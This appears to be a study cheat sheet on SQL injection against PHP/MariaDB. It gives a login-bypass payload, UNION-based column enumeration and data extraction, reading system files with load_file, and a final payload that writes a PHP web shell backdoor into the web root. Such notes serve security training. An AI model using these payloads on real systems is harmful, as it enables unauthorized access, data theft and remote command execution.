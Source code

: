# SQL Injection
> Syntax for PHP/MariaDB


### Identifying
Need to find locations where data might pass through a database.
* Products on e-commerce site
* Message threads on a forum
* Authentication/login page

> To identify, throw in random characters such as ;, ', ", #, UNION SELECT, 


### Authentication Bypass
Default payload: `' or 1=1;#`

If this was sent in as the username, the sql query on the backend would change as the following:  
`select * from users where name = 'tom' or 1=1;#' and password = 'jones'; `     
The `#` will comment the rest of the query out.  
This query will return all rows where users with the name of tom   

Sometimes if there is more than one row, that might throw errors with the database, so it might be a good idea to add a LIMIT 1 to the query.  
`select * from users where name = 'tom' or 1=1 LIMIT 1;#`  


### Column number enumeration id based

**Source code:**  
`$sql = "SELECT id, name, text FROM feedback WHERE id=". $_GET['id']; `
  
**Enumeration:**   
`http://10.11.0.22/debug.php?id=1 order by 1`

Submit multiple queries by increasing order by number until there’s errors. Errors indicate maximum columns 

Once we know how many columns are in the table, we can use to extract more with `UNION`

`<ip>/xyz?id=1 union all select 1, 2, 3` This will return row 1 with 3 columns. Errors get thrown when we ask for things that do not exist  

The page now displays the position of the different columns so you will see 1,2,3 values in the different columns displayed  
  

### Extracting Data from the Database

`ip/xyz?id=1 union all select 1, 2, @@version` This will extract the database version and put it in where it previously put 3 for column 3


Now we can enumerate the information_schema and dig into the tables to retrieve values.  
`ip/xyz?id=1 union all select 1, 2, table_name from information_sc hema.tables`
  
Can enumerate for users in the users table  


### SQLi to Code Execution

`ip/xyz?id=1 union all select 1, 2, load_file('C:/Windows/System32 /drivers/etc/hosts')`

If we see error messages, we should know the location of the web root.

`ip/xyz?id=1 union all select 1, 2, "<?php echo shell_exec($_GET[' cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`
